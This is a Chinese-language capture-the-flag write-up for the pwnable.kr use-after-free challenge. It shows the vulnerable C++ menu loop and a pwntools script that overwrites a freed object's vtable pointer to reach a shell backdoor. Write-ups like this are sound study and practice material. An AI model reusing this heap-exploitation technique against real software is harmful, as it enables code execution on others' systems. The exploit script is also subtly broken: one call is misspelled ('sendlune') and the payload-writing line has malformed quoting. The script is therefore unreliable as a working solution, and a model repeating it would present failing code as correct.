 ```cpp
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}
```

根据uaf的原理，我们只需要先free 然后再利用after修改Dangling pointer指向的内存，然后再use一下就行，这里我们通过修改虚表指针，来利用源码中的后门give_shell()

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='uaf',password='guest',port=2222)

#shell.download_file("./uaf.cpp")
#shell.download_file("./uaf")

v_ptr=0x00401570

payload=v_ptr-0x8 #修改虚表指针

sh=shell.run('sh')
sh.sendline('python -c "print" '+p64(payload)+'> /tmp/exp.txt')
sh.sendline("./uaf 24 /tmp/exp.txt")#Man 对象分配的堆空间是24个字节
sh.sendline("3")
sh.sendline("2")#因为先free m再free w，所以为了再次拿到m所指向的空间，我们需要分配两次，第一次得到w所指向的空间，第二次才再次得到m所指向的空间
sh.sendline("2")
sh.sendlune("1")
sh.interactive()
```

### 参考资料
